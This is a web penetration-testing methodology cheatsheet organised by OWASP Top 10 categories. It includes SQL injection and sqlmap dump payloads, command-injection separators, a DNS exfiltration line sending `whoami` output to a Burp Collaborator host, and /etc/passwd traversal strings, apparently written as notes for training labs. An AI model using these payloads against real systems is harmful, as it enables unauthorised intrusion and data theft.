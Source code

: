 
# Methodology // Exploitation Cheatsheet

[OWASP Top 10](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)

[OWASP checklist](https://github.com/tanprathan/OWASP-Testing-Checklist)

  - Follow along with [OWASP release 4.0](https://www.owasp.org/images/1/19/OTGv4.pdf) for each section

<details>
  <summary>Enumeration</summary>
  <br>
  
  ## Content discovery
  
   - What is the server running on/versions?
    - Wappalyzer 
    - Response headers
    - Inspect source
    - Fingerprint server
    
          httprint -P0 -h <IP> -s /usr/share/httprint/<signature file>
  
  ## Vulnerability/misconfiguration scanning
  
   - Nikto 
   
     with credentials  -id <user>:<pass>
   
   - [Header scanning](https://securityheaders.com/)

  
  [Visual site mapper](http://www.visualsitemapper.com/)
  
  Wappalyzer extension for server/web app details
  
  ## Subdomain discovery
  
  - Sublist3r (scraping)
  - SubFinder-o
  - [assetfinder](https://github.com/tomnomnom/assetfinder)
   
        assetfinder <domain.TLD>
        
         By default will also find related assets that may not be in the searched domain.
        
          --subs-only   #will only find subdomains
   
  - AMass
  
  - [gowitness](https://github.com/sensepost/gowitness)
  
     Takes screenshots of websites
  
  - [httprobe](https://github.com/tomnomnom/httprobe)
  
      Will check if subdomains responds
 
  - [waybackurls](go get github.com/tomnomnom/waybackurls)
  
      Checks URLs against the wayback machine
  
  ## Directory discovery
  
  - gobuster 
      
        gobuster dir -u <URL> -w <wordlist>
        
         -c <cookie> specify cookie
        
         -e <extensions>
         
         -P string
                 Password for Basic Auth (dir mode only)
         -U string
                 Username for Basic Auth (dir mode only)
  
 Wordlists
 
    /usr/share/wordlists/dirb/
    /usr/share/wordlists/dirbuster/
</details>

<details>
<summary>Learning the application</summary>
  While running Burp, run through the site.
  How is everything handled? (pages, files, auth)
  What is the application for? (Photo storage, blog, store)
  
</details>

<details>
  <summaryHTTP version syntax</summary>
  <br>
  
  **HTTP/1.0** 
   
      GET <resource> HTTP/1.0
      
  **HTTP/1.1** 
   
      GET <resource> HTTP/1.0
      Host: <domain>.<tld>
  
</details>


<details>
  <summary>Exploiting Misconfigured HTTP Verbs</summary>
  <br>
  
  **DELETE** 
   
        DELETE  <resource> HTTP/1.0
        
  **PUT**
  
        PUT /<filename for upload> HTTP/1.0 
        Content-type: text/html
        Content-length: <size of upload. Burp will auto count>
        
        
        <script>
  
</details>

-----------------------------------------------------------------------------

<details>
  <summary>SQLi</summary>
  <br>
  
  [SQL Syntax](https://www.w3schools.com/sql/sql_intro.asp) 
  
  [Injection](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection)
  
  SQL statements begin with verbs.
 - Common SQL verbs:
        - SELECT
        - INSERT
        - DELETE
        - UPDATE
        - DROP
        - UNION
   
   - Terms:
        - WHERE - Filters records based on specific condition
        - AND/OR/NOT - Filter records based on multiple condtions
        - ORDER BY - Sorts records in ascending/descending order
        
   - Special characters:
        - ' and " - string delimeters
        - -- , /* and #  - Comment delimiters
        - * and %  - wildcards
        - ; - ends SQL statement
        - Others that follow programmatic logic - = , + , > , < , () , etc
        
   **Test vectors**
   
     - GET parameters
    
        Note on comments for GET requests: not just two dashes and a space, also add a third dash. Because most of the browsers automatically remove trailing spaces in the URL so, if you need to inject a comment via a GET request, you have to add a character after the trailing space of the comment i.e. -- -
     
     - POST parameters
     - HTTP Headers
       - UA
       - Cookies
       - Accept 
       - Etc
       
   **Test input**
   
     •String terminators: 'and "
     •SQL commands: SELECT, UNION, and others
     •SQLcomments:#or--
     • Closing off '))-- for URL parameters. Then try to move to a UNION SELECT
     
      **Exploit**
         
  **Boolean based SQLi**
  
   Trying blind SQL to figure out the contents of a field
  
       ' or substr(user(), 2, 1)= 'a
       
  **Union based**
  
   For if output is directly displayed on the output page. To exploit a SQL injection, you first need to know how many fields the vulnerable query selects. Which is done by trial and error.
   
    ' UNION SELECT null; --
    ' UNION SELECT null, null; --
    
   Example: 
     
    '))-- UNION SELECT 1,2,3,4,5,6,7,8,<payload>
     
      payloads: 
      
        <SQL version>_version()--
        <table name>

  Each null represents a field. Usually an SQL error page will represnt that we have the wrong number of fields. An SQL "false" (try to determine this once an SQLi has been discovered, i.e paramter image=<sql>, true=image loads, false=broken image) condition will represent that we have guessed the correct total of fields (do one extra just in case). 
  
   Other payloads:
   
     ' UNION SELECT <SQL command>; --
     
     user() gets user running SQL
     
 SQLMap once vectors have been identified: 
 
   [Cheatsheet 1](https://gist.github.com/jkullick/03b98b1e44f03986c5d1fc69c092220d)
   
   sqlmap with GET request
   
     sqlmap -u <url><resource>?id=1 -p id
     
   sqlmap with POST request
   
     use Burp to save the injectable request to a text file
     
     sqlmap -r POSTrequest.txt -p <injectable parameter>
     
   Get tables
     
     sqlmap -u <url><resource>?id=1 -p id --tables
     
   Get contents
   
    sqlmap -u <url><resource>?id=1 -D awd -T accounts --dump

   SQL query example:
   
        <verb> <* or column> FROM <Table name> WHERE <Term / Condition> 
</details>


<details>
  <summary>Broken Authentication</summary>
  <br>
   
   [Broken Authentication](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)

   Application functions related to authentication and session management are often implemented incorrectly, allowing attackers to compromise passwords, keys, or session tokens, or to exploit other implementation flaws to assume other users’ identities temporarily or permanently.
   
    - Testing login/password recovery error for username enumeration
    
    - Session fixation
        - How are session IDs handled? In URL or cookie? Are they encrypted/handled properly?
        - Does logging out revoke the cookie? Immediatly?
        - Is there a timeout on the session cookie?

</details>


<details>
  <summary>Sensitive Data Exposure</summary>
  <br>
   
 [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
 
 Many web applications and APIs do not properly protect sensitive data, such as financial, healthcare, and PII. Attackers may steal or modify such weakly protected data to conduct credit card fraud, identity theft, or other crimes. Sensitive data may be compromised without extra protection, such as encryption at rest or in transit, and requires special precautions when exchanged with the browser.
 
   - Stored credentials in site/site scripts
   
   - Backup directories
   
   - Dev directories
   
   - Internal data
   
   - Not in a dir accessable to anyone
   
   - Not Encrypted sensitive data if accessible
   
   - Are appropriate headers applie so attacks against a session cannot occur? Mitm/downgrade/etc
      - [Header scanning](https://securityheaders.com/)
      
   - Does it support new/degraded encryption. 
       
         nmap --script=ssl-enum-ciphers -p 443 <URL>
</details>


<details>
  <summary>XXE</summary>
  <br>
   
   [XML External Entities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_(XXE))
   
   Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks. An XML entity is like a variable that you can call into the page later. On the page you care only able to use alphanumeraic characters for strings, however you can call in an entity that contains special characters. You will notice the SYSTEM key word to let the parser know that the resource is external, i.e can pull data from the system. 
   
   [XXE Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
   
  
</details>

<details>
  <summary>Broken Access Control</summary>
  <br>
  
  [Broken Access Controls](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)
  
  Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access other users’ accounts, view sensitive files, modify other users’ data, change access rights, etc


   - Look for client side code that handle data incorrectly
       - Hidden fields that have password/ UID data that can be minipulated
       - Cookies that improperly control access (i.e IsAdmin cookie)
       - 
   
   <details>
    <summary>403 restrictions bypass</summary>
     <br>
   
     Try other HTTP methods
   
       Try headers:
   
       X-Original-URL: <path>
     
       X-Rewrite-URL: <path>
   
   </details>
</details>


<details>
  <summary>Security Misconfiguration</summary>
  <br>

   [Security Misconfiguration](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A6-Security_Misconfiguration)
   
   Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured HTTP headers, and verbose error messages containing sensitive information. Not only must all operating systems, frameworks, libraries, and applications be securely configured, but they must be patched/upgraded in a timely fashion.
</details>


<details>
  <summary>XSS</summary>
  <br>
   [XSS](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)) 
    
   [Portswigger Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
   
   XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites. Note that reflected and DOM based XSS require social engineering. 
   
  [Payloads](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload.txt)
   
   Blacklist bypassing:
    
     - Pay around with what is beng removed with input is entered. 
     
      + 
      
      <<  >> /
      
      Uppercase/lowercase
      
      encoding
   
</details>

<details>
  <summary>Insecure Deserialization</summary>
  <br>
   
   [Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)
   
   Taking data that is serialized (taking data, and converting it to a different format), and deserializing it. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks. 
   
   https://github.com/frohoff/ysoserial
   
</details>

<details>
  <summary>Using Components with Known Vulnerabilities</summary>
  <br>
   
   [Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities)
   
   Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts. Look for CVE or known vulnerabilities with software versions the target is running.
</details>

<details>
  <summary>Insufficient Logging&Monitoring</summary>
  <br>
   
   [Insufficient Logging&Monitoring](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A10-Insufficient_Logging%252526Monitoring)
   
 Insufficient logging and monitoring, coupled with missing or ineffective integration with incident response, allows attackers to further attack systems, maintain persistence, pivot to more systems, and tamper, extract, or destroy data. Most breach studies show time to detect a breach is over 200 days, typically detected by external parties rather than internal processes or monitoring.
</details>


<details>
  <summary>Parameters</summary>
  <br>
  
  Garbage info ( symbols, negative intigers)
  
  Other account tokens, token mixing
  
  HPP
  
</details>


<details>
  <summary>File Upload</summary>
  <br>
  
  Things to think about:
  
    - File size limit for DoS
  
    - Santized filenames ? buffer overflow
  
    - How are zip files handeled if accepted?
  
    - How are files renamed / accessed
  
    - Check Content-Type header
    
    - is it a blacklist or a whitelist
    
    - How are the files being varified? Name, POST form or file content?
  
  Payloads: 
  
   ## manual testing bypass
    
    .PhP .php3 .php5
    
    .php00.png
    
    .php (1).png
  
  ## Use Burp intruder against the wordlist inder /usr/share/wordlists/dirb/
    
    
   ## Editing upload request 
</details>


<details>
  <summary>Open redirects</summary>
  <br>
 
  If the site redirects.
  
  Server side: 
   
    - Referer in Http request
    - Checking if only relative / are allowed. // is a protocol agnostic, absolute URL. Try that.
  
  Client side:
  
    - window.location how is it checked? 
</details>

<details>
  <summary>Privilege Escalation</summary>
  <br>
  
  Cookies:
     How are sessions being held in cookies. Vuln to tampering (no digital sig)?
     What other info is in the cookies? 
     Try to see if the server will take untrusted data from your requests.
     Encrypted?
      
  <details>
  <summary>Try Horizontal escalation:</summary>
  <br>
  Horizontal privilege escalation occurs when an application allows the attacker to gain access to resources which normally would have been protected from an application or user. The result is that the application performs actions with the same but different security context than intended by the application developer or system administrator; this is effectively a limited form of privilege escalation (specifically, the unauthorized assumption of the capability of impersonating other users). 
  </details>   

  Finding a way tio make requests as an admin 
   
  <details>
  <summary>Vertical Escalation</summary>
  <br>
  This type of privilege escalation occurs when the user or process is able to obtain a higher level of access than an administrator or system developer intended, possibly by performing kernel-level operations. 
  </details>
</details>

<details>
  <summary>Session Fixation</summary>
  <br>
  
  Can you take control of an authenticated users session using the sessionID.
  
  - Use the sessionID that has already been established
  
  - Craft a sessionID and see if that sticks. i.e www.site.com/login?jsessionID=CraftedID 
    Login and see if the sessionID stays the same.
  
</details>


<details>
  <summary>Command Injection</summary>
  <br>

 Areas with user input that could have its handleing manipulated to run an OS command.

   Parrameters sent such as those in URLs i.e ?filename=  or user input.
  
  Command seperators which allow for commands to be chained together. 
   nix/Windows
   
    & 
    && (extra & separates the injected command from whatever follows the injection point.)
    |
    ||
    
   Unix
    
    ;
    0x0a or /n (newline)
    
   Unix. Back ticks or dollar character can be used to perform inline execution of an injected command within the original command. 
     
    ' Command ' 
    $(Command)
    
  Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

 Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to  terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command. 


  Useful commands 

    Purpose of command 	Linux 	Windows
    Name of current user 	whoami 	whoami
    Operating system 	uname -a 	ver
    Network configuration 	ifconfig 	ipconfig /all
    Network connections 	netstat -an 	netstat -an
    Running processes 	ps -ef 	tasklist 
    
   Blind:
    
   wait X seconds to test
   
     ping -c X 127.0.0.1 
     
   Rediecting blind output
   
    whoami > /<writable folder>
    
    Then naviage to that file  www.example.ca/<writeable file>
     
     
   Note that the file may only be accessable how the server allows it to be accessed. 
   Example: you write to an image directory but the server only allows the files to be accessed via 
      
       /image?filename=myfile.txt 
       so /image/myfile.txt may not work.
   
   Out-of-band
   
   Having the server interact with another system you control 
   
    ping BurpCollab
    
   Exfultrate data using out-of-band
   
    $(nslookup `whoami`.c2f2evzg76x5nz0z7m8uwsvvrmxdl2.burpcollaborator.net)
     
   Which will result in this request to my DNS server
    
   [![DNS-request.png](https://i.postimg.cc/L41gCYwc/DNS-request.png)](https://postimg.cc/23C536zG)

</details>

<details>
  <summary>Directory Traversal</summary>
  <br>
  Allows the reading of files on the server that is running the vulnerable application by manipulating a parameter. 
 
     /image?filename=../../../etc/passwd
 
 Attempt with abosule and relative paths as one or the other may be blocked/not blocked.
 
 Bypassing stripped traversal
 
  ....// and ...\/ will strip the detected ../ and ..\ from the centre and the outsides will come together to make ../.
  If what gets parsed / removed is responded use that to try to find a way to bypass. 
  
  encoding:
  
    ..%252f (takes away the 25 and you are left with the / encodded)
    ..%c0%af
  
  Some applications transmit the full path via the request, you may need to append your traversal to that.
 
    /image?filename=/var/www/images/../../../../etc.passwd
    
  Bypass required endings to a file
  
   %00 (null byte)
   
    passwd%00.png
    
  Note that depending on how the server sends thse back you may have to curl the request.
  
    curl https://ac8d1f3e1f7f4d4080c322dc0035009c.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg

 
</details>

<details>
  <summary>Sub Domain Takeover</summary>
  <br>
  
  If a sub domain that is found belonging to a target that is unused may be vulnerable to sub domain takeover. 
  
  Signs: 
  
  Exploit:
</details>


<details>
  <summary>SSRF</summary>
  <br>
  
  - Bypass SSRF fix. Change HTTP version from 1.1 to 0.9 and remove the host header completely. On HTTP/0.9 there is no need for a host header.
</details>



<details>
  <summary></summary>
  <br>
</details>
